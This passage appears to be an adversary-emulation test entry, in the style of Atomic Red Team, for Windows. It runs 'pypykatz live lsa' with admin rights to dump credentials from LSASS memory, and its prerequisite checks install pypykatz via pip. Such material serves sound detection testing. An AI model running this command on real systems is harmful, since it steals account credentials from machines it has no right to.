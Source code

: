 **Supported Platforms:** Windows


**auto_generated_guid:** c37bc535-5c62-4195-9cc3-0517673171d8






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
pypykatz live lsa
```




#### Dependencies:  Run with `command_prompt`!
##### Description: Computer must have python 3 installed
##### Check Prereq Commands:
```cmd
py -3 --version >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
echo "Python 3 must be installed manually"
```
##### Description: Computer must have pip installed
##### Check Prereq Commands:
```cmd
py -3 -m pip --version >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
echo "PIP must be installed manually"
```
##### Description: pypykatz must be installed and part of PATH
##### Check Prereq Commands:
```cmd
pypykatz -h >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
pip install pypykatz
```




<br/>
<br/>
